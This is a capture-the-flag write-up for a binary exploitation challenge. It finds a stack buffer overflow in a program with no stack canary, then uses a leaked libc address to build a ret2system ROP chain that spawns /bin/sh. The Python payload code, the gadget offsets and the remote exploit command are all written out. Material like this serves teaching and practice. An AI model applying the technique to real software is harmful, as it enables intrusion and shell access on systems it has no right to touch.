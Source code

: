 # challenge Name: Prog
![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security
`` pwn checkseck poj``
    ![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 not that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

    ![Poj_challenge](../images/poj_exec1.png)
     we have memory leak of write address

    # reverse engineering the program
after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

    ![main function](../images/main_func_poj.png)
    ![min function](../images/vuln_func_poj.png)


3. # exploit the BOF:
    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
    ![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gdget  on the libc 
    ```
 # libc.so.6 write = 0xff4d0
libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 
libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 
libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"
pop_rdi_offset =  0x0000000000028215 # found with ropper 
ret_offset =  0x00000000000f35d8 # found with ropper

# Now calculate the PIEBASE
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit:
```
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003
b
```
    ![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
